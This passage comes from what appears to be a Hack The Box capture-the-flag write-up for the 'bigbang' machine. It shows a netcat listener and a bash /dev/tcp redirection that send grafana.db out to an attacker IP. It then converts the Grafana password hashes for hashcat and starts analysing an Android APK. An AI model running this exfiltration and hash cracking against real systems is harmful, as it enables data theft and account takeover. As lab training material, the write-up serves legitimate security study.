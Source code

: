 ```bash
# Attacker
nc -lvnp 9999 > grafana.db
# Victim
shawking@bigbang:/opt/data$ cat grafana.db > /dev/tcp/10.10.14.27/9999
s
```
> Note: the `/dev/tcp` redirection is an exclusive feature of `bash` and is not available in all shells. It allows you to open a TCP connection to a specified host and port, effectively creating a socket connection.
{: .prompt-warning}

In posession of the `grafana.db` file we enumerate for sensitive informatin and we find more hashes and salt for `grafana` users

![DESC](file-20250504161501693.png)
![DESC](file-20250504164905247.png)

Using a tool called [`grafana2hashcat`](https://github.com/iamaldi/grafana2hashcat) we can convert the `hash,salt` format into a `hashcat` acceptable format

```
python ~/tools/grafana2hashcat/grafana2hashcat.py grafana_hashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  grafana_hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=


[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Looking at the email from the cracker hash user, we see that it is for the `developer` user, trying the cracked password we can login as `developer`

```
developer@bigbang:~/android$ ls
satellite-app.apk
```

Inside the `developer` home folder, there is an android `.apk` file, we can `unzip` the files from the `apk` and look for interesting strings

```bash
ls
󰗀 AndroidManifest.xml   classes.dex   META-INF   res              satellite-app.apk
 classes               kotlin        okhttp3    resources.arsc

grep -Ri bigbang.htb
grep: classes.dex: binary file matches
grep: satellite-app.apk: binary file matches
```
Using [`jadx`](https://github.com/skylot/jadx) to decompile the `apk` file we can see that there is references to an api endpoint to the `app.bigbang.htb` domain
